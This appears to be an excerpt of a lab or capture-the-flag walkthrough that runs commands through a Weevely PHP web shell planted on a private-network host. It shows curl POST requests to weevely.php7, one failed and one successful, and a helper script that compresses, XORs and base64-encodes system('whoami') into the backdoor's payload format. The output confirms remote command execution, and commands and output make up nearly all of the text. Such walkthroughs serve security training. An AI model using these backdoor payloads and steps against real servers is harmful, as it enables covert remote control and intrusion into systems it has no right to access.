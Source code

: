 `curl -X POST http://192.168.56.121/weevely.php7 -d 'b6e7a529b6c2S/hPqfgr+a43ZGycMuI=d598a771749b'`:
```
```

`curl -X POST http://192.168.56.121/weevely.php7 -d 'b6e7a529b6c2S/hPqfgr+a43ZGycMuI=d598a771749b' -v`:
```
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 192.168.56.121:80...
* Connected to 192.168.56.121 (192.168.56.121) port 80
> POST /weevely.php7 HTTP/1.1
> Host: 192.168.56.121
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Length: 44
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 44 bytes
< HTTP/1.1 500 Internal Server Error ←
< Server: nginx/1.22.1
< Date: Mon, 23 Sep 2024 10:08:49 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
* Connection #0 to host 192.168.56.121 left intact
```
</❌ Failed Step.>

`./cmd_payload.py --cmd='system("whoami");'`:
```                
Original command: system("whoami"); ←
Compressed command (bytes): b'x\x9c+\xae,.I\xcd\xd5P*\xcf\xc8O\xcc\xcdT\xd2\xb4\x06\x00;\x18\x05\xfb'
XORed command (bytes): b'K\xf8O\xc8\x1cJ|\xae\xe64N\xa9\xf8+\xf9\xaeg\xb6\xd0`0_-f\xc8'
Base64 encoded payload: S/hPyBxKfK7mNE6p+Cv5rme20GAwXy1myA== ←
Final payload to use: b6e7a529b6c2S/hPyBxKfK7mNE6p+Cv5rme20GAwXy1myA==d598a771749b ←
```

`curl -X POST http://192.168.56.121/weevely.php7 -d 'b6e7a529b6c2S/hPyBxKfK7mNE6p+Cv5rme20GAwXy1myA==d598a771749b' -v`:
```
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 192.168.56.121:80...
* Connected to 192.168.56.121 (192.168.56.121) port 80
> POST /weevely.php7 HTTP/1.1
> Host: 192.168.56.121
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Length: 60
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 60 bytes
< HTTP/1.1 200 OK ←
< Server: nginx/1.22.1
< Date: Mon, 23 Sep 2024 10:09:56 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
* Connection #0 to host 192.168.56.121 left intact
afnqDsRcBpVmU71yb6e7a529b6c2S/hPSR+zeCofLYBkMHXqYAQ=d598a771749b ←
```
